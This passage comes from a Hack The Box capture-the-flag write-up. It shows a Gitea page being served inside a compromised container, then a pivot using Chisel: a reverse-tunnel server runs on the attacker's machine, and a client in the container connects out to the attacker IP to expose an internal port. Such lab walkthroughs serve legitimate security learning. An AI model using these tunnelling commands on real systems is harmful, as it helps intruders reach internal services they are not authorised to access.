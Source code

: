 ```
3466
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
        <meta name="theme-color" content="#6cc644">
        <meta name="default-theme" content="auto" />
        <meta name="author" content="Gitea - Git with a cup of tea" />
        <meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go" />
        <meta name="keywords" content="go,git,self-hosted,gitea">
        <meta name="referrer" content="no-referrer" />
...
```

It was serving [Gitea](https://gitea.io/en-us/), a hosted interface for git.


I found some exploits for it, but I failed to exploit them from the container. The exploits required `requests`to be installed. It was not and since the box did not have access to the internet, I could not install it.

I was stuck here for a while. I could not easily interact with the site in Python without `requests`. I could have done everything through netcat, but that sounded painful. What I needed was an SSH tunnel that would allow me reach the site on port 3000 of the host from my machine. But I could not get a tunnel since I was in a reverse shell, not an SSH connection.

I went to the [Hack The Box forum](https://forum.hackthebox.com/t/official-opensource-discussion/257694) for a hint. This is where I learned about [Chisel](https://github.com/jpillora/chisel). Chisel allows creating SSH tunnel over HTTP. It also can create reverse port forwarding where the connection starts at the server and get out to the client. This is what I needed since a server in the container would have been unreachable.

I used this [post](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683) as an example of how to build the tunnel.

I downloaded the binary on my machine and on the server. Then started the Chisel server on my machine.

```bash
$ ./chisel server -p 3477 --reverse
2022/06/05 07:28:10 server: Reverse tunnelling enabled
2022/06/05 07:28:10 server: Fingerprint 9yzcXS4jbXm4jt5HQGUAzOFkGgQ9x4vdrjKaDm6AlKk=
2022/06/05 07:28:10 server: Listening on http://0.0.0.0:3477

```

I launched the client in the container.


```bash
/tmp # ./chisel client 10.10.14.143:3477 R:2222:172.17.0.1:3000/tcp
2022/06/05 11:29:16 client: Connecting to ws://10.10.14.143:3477
2022/06/05 11:29:17 client: Connected (Latency 32.747099ms)
```
